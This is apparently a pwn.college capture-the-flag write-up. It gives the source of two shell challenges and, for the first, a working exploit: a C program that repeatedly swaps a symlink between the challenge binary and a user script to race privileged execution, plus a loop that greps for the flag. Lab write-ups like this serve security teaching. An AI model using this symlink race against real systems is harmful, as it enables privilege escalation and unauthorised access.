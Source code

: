### chall
```sh
#!/usr/bin/env -iS /opt/pwn.college/sh

PATH=/usr/bin

case "$1" in
	"hi")
		echo hello
		;;
	"bye")
		echo ciao
		;;
	"help")
		echo "Usage: $0 ( hi | bye )"
		;;
	*)
		echo "Invalid command: $1"
		$0 help
		;;
esac
```

### exploit
program
```c
#include <stdio.h>
#include <fcntl.h>
#include <unistd.h>

int main(int argc, char** argv) {
    while (1) {
        unlink("/home/hacker/zezva");
        symlink("/challenge/run", "/home/hacker/zezva");
        unlink("/home/hacker/zezva");
        symlink("/home/hacker/test.sh", "/home/hacker/zezva");
    }
}
```
```sh
while true; do ./program 2>/dev/null; done | grep pwn & ./program
```

# Journey of the PATH

### chall
```sh
#!/usr/bin/env -iS /opt/pwn.college/bash

PATH=/usr/bin
[ -n "$1" ] || exit

GUESSFILE=$(mktemp)

printf $1 > $GUESSFILE
grep -f /flag < $GUESSFILE || echo Goodbye!
```
